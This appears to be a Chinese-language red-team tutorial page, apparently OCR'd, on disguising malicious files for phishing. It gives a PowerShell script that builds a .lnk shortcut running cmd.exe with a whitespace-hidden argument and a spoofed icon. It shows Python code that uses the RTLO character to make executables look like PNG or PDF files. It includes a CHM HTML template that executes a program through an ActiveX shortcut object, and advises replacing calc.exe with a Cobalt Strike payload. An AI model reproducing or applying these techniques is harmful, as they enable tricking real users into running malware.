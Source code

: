```
$file = Get-Content ".\\test.txt"  
$WshShell = New-Object \-comObject WScript.Shell  
$Shortcut = $WshShell.CreateShortcut("test.lnk")  
$Shortcut.TargetPath = "%SystemRoot%\\system32\\cmd.exe"  
$Shortcut.IconLocation = "%SystemRoot%\\System32\\Shell32.dll,21"  
$Shortcut.Arguments = '                                                                                                                                                                                                                                      '\+ $file  
$Shortcut.Save()
```

## 文件后缀RTLO

**他会让字符串倒着编码**

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20210103174703.png)

- 用Python一键生成用，把txt改为png后缀

```
import os  
os.rename('test.txt', 'test-\\u202egnp.txt')
```
```
import os
os.rename('cmd.exe', u'no\\u202eFDP.exe')
```

## CHM文档

创建一个文件夹（名字随意），在文件夹里面再创建两个文件夹（名字随意）和一个index.html文件，在两个文件夹内部创建各创建一个index.html文件。然后先将下列代码复制到根文件夹中的index.html中

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20210103180223.png)

- 在index.html文件中编辑

```
<!DOCTYPE html><html><head><title>Mousejack replay</title><head></head><body>
command exec
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command" value="ShortCut">
 <PARAM name="Button" value="Bitmap::shortcut">
 <PARAM name="Item1" value=',calc.exe'>
 <PARAM name="Item2" value="273,1,1">
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
</body></html>
```


- 使用cs生成修改模版中的calc.exe
